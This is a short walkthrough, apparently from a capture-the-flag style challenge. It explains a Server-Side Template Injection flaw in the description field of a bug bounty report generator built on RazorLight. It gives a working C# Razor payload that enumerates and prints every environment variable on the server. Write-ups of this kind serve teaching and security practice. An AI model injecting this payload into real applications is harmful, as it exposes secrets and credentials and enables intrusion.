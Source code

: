 The task involves exploiting a Server-Side Template Injection (SSTI) vulnerability in a bug bounty report generator application. The vulnerability exists in the **description** field, where user input is improperly sanitized and directly evaluated by the RazorLight templating engine.


**Crafting the Exploit:**
   - SSTI allows executing arbitrary commands by injecting system-related functions.
   - The payload for Remote Code Execution (RCE) was crafted as:


```c#
@{
    var envVars = System.Environment.GetEnvironmentVariables();
    foreach (var key in envVars.Keys)
    {
        Write(key + " = " + envVars[key] + "<br>");
    }
}
``` 

